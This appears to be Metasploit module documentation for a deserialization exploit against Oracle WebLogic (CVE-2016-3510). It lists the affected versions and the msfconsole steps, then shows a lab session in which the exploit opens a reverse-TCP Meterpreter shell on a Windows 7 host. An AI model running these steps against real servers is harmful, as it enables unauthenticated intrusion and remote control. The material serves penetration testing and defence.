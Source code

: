 ## Description
 Oracle Weblogic Server v10.3.6.0, v12.1.3.0, and v12.2.1.0 are vulnerable to a deserialization vulnerability (CVE 2016-3510), which can be used to execute code on vulnerable systems. An unauthenticated user with network access via T3 could exploit the vulnerability. This module has been tested against Oracle Weblogic Server v10.3.6.0 and v12.1.3.0 running on Windows 7 x64 using JDK v7u80.

## Vulnerable Application
 Oracle Weblogic Server v10.3.6.0, v12.1.3.0, and v12.2.1.0.

## Verification Steps
 1. `./msfconsole -q`
 2. `use exploit/multi/misc/weblogic_deserialize_marshalledobject`
 3. `set rhosts <rhost>`
 4. `set rport <srvport>`
 5. `exploit`

## Scenarios
### Tested on Windows 7 x64 running Oracle Weblogic Server 10.3.6.0 and 12.1.3.0 on JDK v7u80
 ```
 msf exploit(multi/misc/weblogic_deserialize_marshalledobject) > set rhost 192.168.192.6
 rhost => 192.168.192.6
 msf exploit(multi/misc/weblogic_deserialize_marshalledobject > set rport 7001
 rport => 7001
 msf exploit(multi/misc/weblogic_deserialize_marshalledobject) > exploit
 
 [*] Started reverse TCP handler on 192.168.192.136:4444 
 [*] 192.168.192.6:7001 - Sending handshake...
 [*] 192.168.192.6:7001 - Sending T3 request object...
 [*] 192.168.192.6:7001 - Sending client object payload...
 [*] Sending stage (179779 bytes) to 192.168.192.6
 [*] Meterpreter session 8 opened (192.168.192.136:4444 -> 192.168.192.6:49276) at 2018-12-14 11:44:30 -0800

 meterpreter > sysinfo
 Computer        : GIOTTO-HS-W7
 OS              : Windows 7 (Build 7600).
 Architecture    : x64
 System Language : en_US
 Domain          : WORKGROUP
 Logged On Users : 2
 Meterpreter     : x86/windows
 ```
